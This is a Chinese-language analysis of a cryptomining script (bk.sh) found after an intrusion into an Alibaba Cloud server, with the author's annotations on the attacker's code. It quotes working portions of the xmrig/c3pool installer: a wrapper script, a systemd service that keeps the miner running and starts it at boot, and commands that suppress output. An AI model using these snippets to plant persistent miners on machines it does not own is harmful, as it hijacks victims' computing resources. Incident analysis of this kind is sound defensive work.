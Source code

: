 # 记上次黑客入侵阿里云主机 —— 代码分析（上）

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。(bk.sh)

## bk.sh，推测是靶机脚本(注入service部分)

### `cat >/tmp/c3pool_miner.service <<EOL` 注入设置脚本后台启动等

#### EOL注入脚本文件

参考信息源：

* [知乎专栏-heredoc入门](https://zhuanlan.zhihu.com/p/93993398)
* [linux265-pidof命令](https://linux265.com/course/linux-command-pidof.html)
* [linux265-nice命令](https://linux265.com/course/linux-command-nice.html)

`<<EOL EOL`创建与书写任意格式文本及代码。`pidof xxx`为查看xxx程序的进程号。nice命令调度进程的优先级，根据教程资料来看，黑客的代码语法还有些问题。不过，基本大意是非xmrig进程就直接低优先级。

```
cat >$HOME/c3pool/miner.sh <<EOL
#!/bin/bash
if ! pidof xmrig >/dev/null; then
  nice $HOME/c3pool/xmrig \$*
else
  echo ""
fi
EOL
```

#### service内容解读

参考信息源：

* [博客园-Linux 下的两个特殊的文件 -- /dev/null 和 /dev/zero 简介及对比](https://www.cnblogs.com/lishihai/p/7986565.html)
* [csdn-&>/dev/null表示的意思](https://blog.csdn.net/heybeaman/article/details/89500337)
* [Linux *.service文件详解](https://blog.csdn.net/weixin_44352521/article/details/126679172)
* [journalctl基本介绍](https://blog.csdn.net/weixin_45537987/article/details/106762104)

`xxx 2>dev/null`屏蔽错误输出。`>/dev/null 2>&1`什么回显都不用，言外之意就是抹掉记录。


```
# 判断有没有 systemctl 这命令 
  if ! type systemctl >/dev/null; then
    echo ""
	echo ""
    /bin/bash $HOME/c3pool/miner.sh --config=$HOME/c3pool/config_background.json >/dev/null 2>&1
    echo "ERROR: This script requires \"systemctl\" systemd utility to work correctly."
    echo "Please move to a more modern Linux distribution or setup miner activation after reboot yourself if possible."

  else
# 生成挖矿服务配置
    echo "[*] Creating c3pool_miner systemd service"
# 以下为注入配置
    cat >/tmp/c3pool_miner.service <<EOL
[Unit]  # 这个字段给出服务描述、启动顺序和依赖关系
Description=Monero miner service # 描述信息，挖矿服务

[Service] # 这个字段主要给出启动、重启、停止的策略行为
# 定义启动进程时执行的命令
ExecStart=$HOME/c3pool/xmrig --config=$HOME/c3pool/config.json 
# 不管什么原因退出都会重启
Restart=always
# nice 10进程数值
Nice=10
CPUWeight=1

[Install] # 该字段定义如何安装，以及开机自启。
# Systemd有默认的启动 Target，就是 multi-user.target，即开机启动。
# 表示该服务所在的服务组,multi-user服务组。
WantedBy=multi-user.target
EOL

# 将tmp目录注入的服务配置移动到系统进程服务配置里去
    sudo mv /tmp/c3pool_miner.service /etc/systemd/system/c3pool_miner.service
    echo ""
	echo ""
# 
    sudo killall xmrig 2>/dev/null
    sudo systemctl daemon-reload
# 启用挖矿服务，并开始挖矿    
    sudo systemctl enable c3pool_miner.service
    sudo systemctl start c3pool_miner.service
# 要查看矿工服务日志，请运行 "sudo journalctl -u c3pool_miner -f"命令 
    echo "To see miner service logs run \"sudo journalctl -u c3pool_miner -f\" command"
	echo ""
  fi
```

## “echo”及“#”打印及注释信息收集

### echo

"echo"部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

### “#”（全部为机翻）

打印问候语；命令行参数；检查先决条件

```
# printing greetings
# command line arguments
# checking prerequisites
```

计算端口；印刷的意图；开始做事：准备矿工

```
# calculating port
# printing intentions
# start doing stuff: preparing miner
```

准备脚本

```
# preparing script
```

准备脚本后台工作和重启时的工作

```
# preparing script background work and work under reboot
```
